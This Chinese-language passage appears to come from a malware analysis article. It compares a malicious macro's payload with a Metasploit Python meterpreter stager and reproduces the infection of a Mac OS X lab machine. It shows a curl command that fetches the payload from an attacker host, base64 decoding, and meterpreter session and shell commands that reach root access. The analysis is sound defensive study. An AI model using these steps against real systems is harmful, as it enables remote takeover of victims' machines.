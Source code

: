 [![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01856ec68b45ec9d1b.png)

图4

但是不要直接在靶机上执行这段代码，而是要看HTTPS请求的数据服务端是如何作回应的。 运行curl -k https://192.168.71.129:8080/， 我们可以看到一段python脚本代码被接收了。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t018570e19f0bbf9119.png)

图5 返回靶机的脚本

如果我们把在恶意宏是发现的代码与上一步生成的Metasploit代码做对比，很容易就能看出相同的元素(黄色高亮),但是明显base64编码的内容不同。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0168877cf2107f8514.png)

下一步就是解码base64的数据来查看将会在靶机上执行的代码。 为了完成这一步。调用一下base64工具就足够了，而且也可以在Metasploit的界面上执行。

命令语法是echo “” | base64 -d

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01508a5a1734391dee.png)

图6 解码base64数据

在恶意软件的样本中，base64的解码数据被传递到了ExecuteForOSX()函数中(左侧)。 再一次，通过对比两段代码，我们可以看到它们是类似的，当然如果不算URL的话。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d90c490cf5af3592.png)

<br>

**演示对Mac OS X的攻击**

接下来，在Mac OS X的机器上，我们创建一个新文件名为"osx_meterpreter.py",这个文件包含着上边表格右侧的代码。然后通过调用Python解释器来执行这一段脚本。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t011cc52738cfd4486c.png)

图7 在 Mac OS X上运行python脚本

我们可以看到程序并没有出任何错误，双击666。

当我们返回Kali上的Metasploit控制台时，我们可以看到一个meterpreter会话已经连接了。 这个sessions命令可以看到目前的meterpreter会话。 输出显示了一个可用的类型为"meterpreter python/osx" 的会话。它表明会话正确的建立了。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01ca7112f689cca5c5.png)

图8 一个打开meterpreter会话。

命令sessions -i 1来启动这个会话一个交互的shell， 如meterpreter控制台显示的一样。 我们执行的第一个命令是meterpreter命令： sysinfo, 这个命令收集靶机的信息，然后如图9一样显示出来。在这个场景中，它折中的显示了一个Mac OS X机器 的信息。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0133ea973ff779a79f.png)

图9 Mac OS X靶机的sys 信息。

现在，为了更刺激一点， shell命令被执行了。这个命令开启了一个可以在本地控制远程靶机的shell。 一个"sh-3.2" 的控制台出现了，从这我们可以执行任何的命令，即相当于在远程靶机执行的命令。 id命令用来显示用户的id值，在这个例子中是"root"用户。

[![](./img/85855/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01dd2837edee738c46.png)

图10 得到Mac OS X靶机的shell

还有一点值的提的是，即使Metasploit服务端宕机了，运行在靶机上的python仍然会存活，并一直尝试连接服务器直到服务器上线为止。 一旦这个情况发生了，靶机自动连接并且与服务器建立一个会话。

<br>

**演示Windows 7的攻击**

